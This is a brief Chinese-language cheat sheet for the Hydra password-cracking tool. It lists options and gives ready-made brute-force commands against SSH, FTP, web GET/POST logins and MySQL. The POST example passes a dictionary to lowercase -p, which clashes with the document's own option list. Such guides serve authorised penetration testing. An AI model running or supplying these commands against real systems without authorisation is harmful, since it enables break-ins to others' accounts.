

# 爆破工具hydra

### 参数选项

```
-R 继续从上一次进度接着破解。
-S 采用SSL链接。
-s PORT 可通过这个参数指定非默认端口。
-l LOGIN 指定破解的用户，对特定用户破解。
-L FILE 指定用户名字典。
-p PASS 小写，指定密码破解，少用，一般是采用密码字典。
-P FILE 大写，指定密码字典。
-e ns 可选选项，n：空密码试探，s：使用指定用户和密码试探。
-C FILE 使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数。
-M FILE 指定目标列表文件一行一条。
-o FILE 指定结果输出文件。
-f 在使用-M参数以后，找到第一对登录名或者密码的时候中止破解。
-t TASKS 同时运行的线程数，默认为16。
-w TIME 设置最大超时的时间，单位秒，默认是30s。
-v / -V 显示详细过程。
server 目标ipservice 指定服务名，支持的服务和协议：telnet ftp pop3[-ntlm] imap[-ntlm] smb smbnt http-{head|get} http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh smtp-auth[-ntlm] pcanywhere teamspeak sip vmauthd firebird ncp afp等等。
OPT 可选项
```

### 常用命令破解

#### ssh破解

1. hydra -l user -P 密码字典 -t 线程 -vV -e ns ip ssh
2. hydra -l user -P 密码字典 -t 线程 -o xxx.log -vV ip ssh

#### FTP破解

1. hydra ftp://ip -l user -P 密码字典 -t 线程(默认16) -vV
2. hydra ftp://ip -l user -P 密码字典 -e ns -vV

#### Web破解，GET

1. hydra -l user -P 密码字典 -t 线程 -vV -e ns ip http-get /admin/
2. hydra -l user -P 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php

#### Web破解,  POST

1. hydra -l user -p 密码字典 ip -s port http-post-form "/:password=^PASS^:Invalid password"



#### mysql破解

1. hydra -l root –p pass.txt –e ns 127.0.0.1 mysql

